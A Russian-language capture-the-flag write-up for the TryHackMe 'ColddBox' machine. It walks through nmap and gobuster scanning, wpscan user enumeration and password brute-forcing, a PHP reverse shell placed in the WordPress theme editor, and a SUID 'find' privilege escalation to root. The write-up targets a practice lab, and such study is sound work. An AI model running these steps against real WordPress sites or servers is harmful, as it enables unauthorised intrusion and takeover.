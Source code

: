 # Mnemonic

:white_check_mark:  [**Wpscan**](#wpscan)

:white_check_mark: [**Wordpress_theme_editor**](#wordpress_theme_editor)

___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV cold.thm
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18
Service Info: Host: 127.0.1.1
```

Главная страница cold.thm

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/1.png)

Просканируем дирекутории:
```
gobuster dir -u http://cold.thm/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```
```
/wp-content           (Status: 301) [Size: 309] [--> http://cold.thm/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://cold.thm/]
/wp-includes          (Status: 301) [Size: 310] [--> http://cold.thm/wp-includes/]
/license.txt          (Status: 200) [Size: 19930]                                  
/wp-login.php         (Status: 200) [Size: 2547]                                   
/readme.html          (Status: 200) [Size: 7173]
/wp-admin             (Status: 301) [Size: 307] [--> http://cold.thm/wp-admin/]   
/hidden               (Status: 301) [Size: 305] [--> http://cold.thm/hidden/]     
/xmlrpc.php           (Status: 200) [Size: 42]
```

Страница cold.thm/hidden :

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/2.png)

Можем заметить некторые имена пользователей.

<a name="wpscan"></a>

На главной странице мы могли заметить, что сайт работает на wordpress, перейдем в директорию /wp-admin/. Просканируем с помощью **wpscan** имена пользователей.
```
wpscan --url cold.thm --enumerate u
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/3.png)

Попробуем сбрутить пароль для имени пользователя c0ldd:
```
wpscan --url cold.thm --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd
```

```
[SUCCESS] - c0ldd / 9<Redacted>0
```

<a name="wordpress_theme_editor"></a>

Логинимся на wordpress.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/4.png)

Переходим в редактор тем на страницу 404. Appearance -> Editor -> 404 Template. Закидываем php reverse shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/5.png)

Переходим на страницу 404.php(cold.thm/wp-content/themes/twentyfifteen/404.php). Получаем shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/6.png)

Закидываем linpeas и находим suid в find.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/7.png)

На [GTFOBins](https://gtfobins.github.io/) переходим на страницу find и находим решение.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/8.png)

Переходим в директорию /usr/bin и выполныем команду:
```
./find . -exec /bin/sh -p \; -quit
```

Получаем рута.
